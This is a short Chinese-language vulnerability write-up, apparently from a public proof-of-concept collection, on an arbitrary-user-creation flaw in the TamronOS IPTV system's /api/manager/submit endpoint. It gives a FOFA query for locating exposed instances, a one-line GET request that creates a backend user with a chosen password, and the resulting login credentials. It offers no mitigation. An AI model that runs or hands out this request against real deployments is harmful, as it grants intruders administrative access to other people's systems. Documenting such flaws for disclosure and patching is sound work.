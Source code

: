 # TamronOS IPTV系统 submit 任意用户创建漏洞

## 漏洞描述

TamronOS IPTV系统 /api/manager/submit 存在任意用户创建漏洞，攻击者通过漏洞可以任意用户创建进入后台

## 漏洞影响

```
TamronOS IPTV系统
```

## FOFA

```
app="TamronOS-IPTV系统"
```

## 漏洞复现

登录页面如下



![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202101926166.png)



漏洞POC为



```plain
/api/manager/submit?group=1&username=test&password=123456
```



![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202101926524.png)



```plain
user: test
pass: 123456
```



![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202101926288.png)